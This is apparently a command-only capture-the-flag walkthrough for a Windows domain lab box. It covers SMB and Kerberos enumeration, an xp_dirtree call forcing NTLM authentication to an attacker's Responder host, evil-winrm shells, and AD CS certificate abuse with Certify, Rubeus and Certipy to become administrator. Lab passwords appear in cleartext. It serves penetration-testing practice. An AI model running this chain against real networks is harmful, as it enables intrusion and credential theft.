 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.202
dc.sequel.htb
```
![image](https://github.com/user-attachments/assets/9263ebf5-8f7b-407d-baa3-e3a46e8540af)

```
smbclient -L \\\\10.10.11.202\\
smbclient \\\\10.10.11.202\\Public
```
![image](https://github.com/user-attachments/assets/f31422ee-e143-4d2a-bef8-505127c28203)

```
python3 -m http.server 80
http://10.10.14.6/SQL%20Server%20Procedures.pdf
PublicUser | GuestUserCantWrite1
```
![image](https://github.com/user-attachments/assets/dd949602-8c3c-435d-b04e-0dc1ecb8d7ff)

```
./kerbrute_linux_amd64 userenum --dc 10.10.11.202 -d sequel.htb users_0
```
![image](https://github.com/user-attachments/assets/53c9d8de-3ef7-4c76-a88d-b3c09f6caa53)

```
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
```
![image](https://github.com/user-attachments/assets/c4f31852-f910-4641-a631-8489f6023ac7)

```
responder -I tun0 -v
EXEC MASTER.sys.xp_dirtree '\\10.10.14.6\test', 1, 1
REGGIE1234ronnie (sql_svc)
```
![image](https://github.com/user-attachments/assets/bb0b8250-4cd0-463a-8fd9-0bd1882b66c2)

![image](https://github.com/user-attachments/assets/eabb3ae2-1343-47d2-8742-7f235c1acd67)

```
crackmapexec winrm 10.10.11.202 -u users_3 -p REGGIE1234ronnie --continue-on-success
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
![image](https://github.com/user-attachments/assets/a62a4cdd-c228-493f-8bde-caa93695ebca)

![image](https://github.com/user-attachments/assets/78b2d28d-f869-4b04-8b55-2ec48b8db114)

```
upload winPEASany.exe
./winPEASany.exe
```
![image](https://github.com/user-attachments/assets/170c7e63-ac22-43db-896d-fae7a896190b)

```
type C:\sqlserver\Logs\ERRORLOG.bak
```
![image](https://github.com/user-attachments/assets/53099c6d-e9cb-4d4a-8606-fa52dea217f3)

![image](https://github.com/user-attachments/assets/cd62b77f-eaad-4fbc-9e40-d95f595cb14e)

```
crackmapexec winrm 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/bb11ad81-6b7a-4469-a77a-b9f5db898f5a)

```
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/95b9055c-951e-4a11-855b-ee410f182df7)

```
Download Certify.exe https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
upload Certify.exe
.\Certify.exe find /vulnerable /currentuser
```
![image](https://github.com/user-attachments/assets/291c9e18-5898-42e1-af69-1827741ff159)

```
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```
![image](https://github.com/user-attachments/assets/2a436b62-2ab5-48d8-94f7-4b6af84b6493)

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter no password
```
![image](https://github.com/user-attachments/assets/0bde621d-fe4b-493d-9f38-3ece278b7e9b)

```
upload cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx
```
![image](https://github.com/user-attachments/assets/6a4ab877-c5ea-4fef-9ce5-4da8f5eee66a)

```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```
![image](https://github.com/user-attachments/assets/39fbe789-1258-426c-ae50-07de66d154c6)

```
git clone https://github.com/ly4k/Certipy.git
python3 setup.py install
Certipy
```
![image](https://github.com/user-attachments/assets/1bf7e649-bcca-4ca8-9648-5670bfe5b0ed)

```
.\Certify.exe find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
```
![image](https://github.com/user-attachments/assets/56d22ec3-ab2b-47c9-9ec8-35ea0f2a4c5c)

```
certipy req -u ryan.cooper -p NuclearMosquito3 -target 10.10.11.202 -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
```
![image](https://github.com/user-attachments/assets/9b2a463d-f72f-4a5e-89a2-e829faef9f46)
